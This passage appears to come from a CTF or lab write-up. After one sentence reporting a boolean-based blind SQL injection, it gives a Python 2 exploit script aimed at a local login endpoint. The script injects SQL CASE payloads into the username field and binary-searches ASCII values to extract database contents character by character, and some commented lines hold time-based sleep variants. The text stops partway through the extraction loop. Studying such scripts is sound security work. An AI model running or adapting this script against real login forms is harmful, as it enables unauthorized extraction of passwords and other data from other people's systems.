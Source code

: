 ```
```

after doing some fuzzing i found that the application is vulnerable to an blind sql injection boolean-based , so i made a python scripts to automate the exploit.

```
import requests
import re
from StringIO import StringIO
from pycurl import *
import os


url = "http://127.0.0.1:5000/login"
payload = {
    "user":"",
    "pass":"xxxx",
    "cmd":"getTemp"
}
headers = {
"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", 
"User-Agent": "Dalvik/2.1.0 (Linux; U; Android 8.1.0; Redmi 6A MIUI/V9.6.18.0.OCBMIFD)", 
"Connection": "close", 
"Accept-Encoding": "gzip, deflate"
}


def check(data):
    print data.elapsed.total_seconds()
    if data.elapsed.total_seconds() > 1:
        return False
    else:
        return True

def check2(data):
    # print data.text
    return re.search("Invalid username or password", data.text)

def blind(kolom,table):
    passwd = ""
    idx = 1

    while (True):
        lo = 1
        hi = 255
        temp = -1
        while(lo <= hi):
            mid = (lo + hi) / 2         
            # payload["user"] = "' or (SELECT CASE when (ascii(substr({},{},1)) <= {}) THEN 1 ELSE sleep(1) END {}) or '".format(str(kolom),str(idx),str(mid),str(table))
            payload["user"] = "' or (SELECT CASE when (select ascii(substr({},{},1)) {}) <= {} THEN (select 1) ELSE (select 1 union select 2) END) or '".format(str(kolom),str(idx),str(table),str(mid))
            # payload["user"] = "' or (select if(true, (select 1), (select 1 union select 2))) or '"
            res = requests.post(url,data=payload, headers=headers)
            # print payload["user"]
            if check2(res):
               hi = mid-1
               temp = mid
            else:
               lo = mid+1
               
        if (hi == 0): break
```